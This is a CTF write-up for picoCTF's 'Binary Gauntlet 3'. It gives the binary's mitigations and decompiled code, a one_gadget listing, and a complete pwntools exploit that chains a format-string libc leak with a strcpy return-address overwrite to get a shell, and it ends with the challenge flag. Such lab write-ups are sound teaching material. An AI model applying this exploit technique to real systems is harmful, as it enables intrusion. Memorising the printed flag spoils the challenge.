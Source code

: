# Binary Gauntlet 3

## Description

Author: madStacks

The stack is no longer executable.
gauntlet nc -v mercury.picoctf.net 4932
The flag for this challenge does not include the standard picoCTF{} wrapper.

## Challenge

The binary seems identical to the previous challenge, except that NX is now enabled.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Decompiled code

```c
undefined8 main(undefined8 argc, char **argv)
{
    char **var_80h;
    int64_t var_74h;
    char *format;
    
    var_74h._0_4_ = (undefined4)argc;
    format = (char *)sym.imp.malloc(1000);
    sym.imp.fgets(format, 1000, _reloc.stdin);
    format[999] = '\0';
    sym.imp.printf(format);
    sym.imp.fflush(_reloc.stdout);
    sym.imp.fgets(format, 1000, _reloc.stdin);
    format[999] = '\0';
    sym.imp.strcpy((int64_t)&var_74h + 4, format, format);
    return 0;
}
```

## Solution

We can no longer write our own shellcode to the stack and execute it due to NX being enabled.

It is difficult to use a ROP chain as `strcpy` will stop on the first nullbyte, and there are almost always nullbytes in addresses, which are required for a ROP chain.

Using the format string vulnerability, we can leak the address of `__libc_start_main_ret`, which we can use to find the version of libc as well as the base address.
To do so, we can use a database search tool such as [libc.blukat.me](https://libc.blukat.me/?q=__libc_start_main_ret%3Abf7&l=libc6_2.27-3ubuntu1.4_amd64).

Once we have the version and base address, we can search for one gadgets:

```
-> % one_gadget libc6_2.27-3ubuntu1.4_amd64.so 
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

I chose the second one gadget in this example, but others may work.
Once I verified that the contraint was met while debugging the program, I used `strcpy` to replace the return address with the address of the one gadget, spawning a shell and allowing me to read the flag file.

## Exploit

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./gauntlet")
libc = ELF("./libc6_2.27-3ubuntu1.4_amd64.so")
ld = ELF("./ld-2.27.so")

context.binary = exe


def conn():
    if args.LOCAL:
        return process([ld.path, exe.path], env={"LD_PRELOAD": libc.path})
    else:
        return remote("mercury.picoctf.net", 22595)


def main():
    r = conn()

    if args.LOCAL:
        context.terminal = ["tmux", "splitw", "-h"]
        #gdb.attach(r, 'b*0x00400727')

    r.sendline('%p ' * 23)

    LibcRet = int(r.recvline().decode().split()[22], 0)

    print(LibcRet)

    LibcBase = LibcRet - 0x021bf7;
    OneGadget = LibcBase + 0x4f432;

    payload = flat({
        0x78: OneGadget,
    })

    print(payload)

    r.sendline(payload)

    r.interactive()


if __name__ == "__main__":
    main()
```

## Flag

`ca4593c0678903b464ed666fa4a9f676`

